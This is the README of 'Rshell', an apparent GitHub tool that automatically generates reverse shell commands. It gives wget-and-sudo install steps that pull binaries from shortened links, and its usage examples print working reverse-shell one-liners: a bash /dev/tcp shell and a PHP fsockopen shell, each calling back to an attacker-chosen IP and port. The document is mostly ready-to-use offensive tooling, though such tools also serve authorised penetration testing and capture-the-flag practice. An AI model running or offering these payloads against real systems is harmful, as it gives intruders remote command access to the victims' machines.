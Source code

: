 # Rshell

Rshell is a automatic reverse shell generator

## Installation

Install [here](/releases), or just execute this:

```bash
wget https://git.io/Jt5k5 -O rshell # to amd64
wget https://git.io/Jt5kA -O rshell # to i386
sudo mv rshell /usr/bin
```

or compile with source code, is easy, trust im my

```bash
git clone https://github.com/R3tr074/rshell
cd rshell
make && sudo make install
```

I say, easy

## Usage

```bash
$ rshell
bash -i >& /dev/tcp/127.0.0.1/1111 0>&1

$ export RHOST="10.10.10.10"
$ export RPORT="4545"
$ rshell
bash -i >& /dev/tcp/10.10.10.10/4545 0>&1

$ rshell -s php -p 1515
php -r '$sock=fsockopen("10.10.14.54",1515);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://github.com/R3tr074/rshell/blob/master/LICENCE)

## Problems

Some problem you can [create a issues](https://github.com/R3tr074/rshell/issues) or get in touch with [me](https://github.com/R3tr074#-get-in-touch)
